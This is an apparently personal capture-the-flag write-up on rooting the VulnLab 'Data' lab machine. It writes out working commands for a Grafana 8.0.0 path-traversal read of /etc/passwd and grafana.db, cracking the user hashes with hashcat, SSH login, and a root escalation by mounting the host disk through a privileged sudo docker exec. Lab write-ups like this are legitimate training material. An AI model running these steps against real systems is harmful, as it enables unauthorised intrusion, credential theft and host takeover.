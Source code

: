 ```yaml
---
title: VulnLab -- Data Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion]
image:
    path: images/data-banner.png
---
```

# Data

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Data** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.
![image.png](../images/data-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3000 --min-rate=1000 10.10.100.171
```

![image.png](../images/data.png)

Now let’s open the website that is working on port 3000

![image.png](../images/data%201.png)

Notice that its running grafana v8.0.0

![remo.png](../images/data%202.png)

Notice that it’s vulnerable to File Read so let’s download the exploit and run it.

```bash
python3 exploit.py -H http://10.10.100.171:3000
```

![remo.png](../images/data%203.png)

> Notice that we got the content of the /etc/passwd file
> 

Now let’s save the grafana database.

```bash
curl --path-as-is http://10.10.100.171:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![remo.png](../images/data%204.png)

now let’s enumerate the database for interesting things.

![remo.png](../images/data%205.png)

notice that there was a table named user.

Now let’s dump it.

```bash
select * from user;
```

![remo.png](../images/data%206.png)

now let’s go and use grafana2hash to make the hash that we can crack

```bash
go run Grafana2Hash.go 7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8 YObSoLj55S
go run Grafana2Hash.go dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8 LCBhdtJWjl
```

![remo.png](../images/data%207.png)

now let’s crack those hashes

```bash
hashcat -m 10900 crackme.txt /usr/share/wordlists/rockyou.txt
```

![remo.png](../images/data%208.png)

> Notice that we got the password do the user Boris
> 

now let’s login to the SSH

![remo.png](../images/data%209.png)

> notice that we got initial access and we can now get the user.txt
> 

Now let’s try elevating our privilege.

```bash
sudo -l
```

![remo.png](../images/data%2010.png)

notice that we can execute commands in docker as root.

now let’s enter the container.

```bash
sudo /snap/bin/docker exec --privileged --user 0 -it grafana /bin/bash
```

![remo.png](../images/data%2011.png)

Now let’s check the disks.

```bash
fdisk -l
```

![remo.png](../images/data%2012.png)

Now let’s mount this disk in our continer.

```bash
mount /dev/xvda1 .
```

![remo.png](../images/data%2013.png)

> For some reason my docker is broke and the ls command is not working 😟
> 

But! since I know that I mounted it now lets try to enter the root directory.

```bash
cd root/
```

![remo.png](../images/data%2014.png)

and now let’s get the flag.

![remo.png](../images/data%2015.png)

and we did it! we Pwned data from vulnlab

![remo.png](../images/data%2016.png)

I hope you enjoyed my solution hope we meet in future writeups and goodbye for now

Yours Remo

CRTE | CRTO | CRTP | eWPTX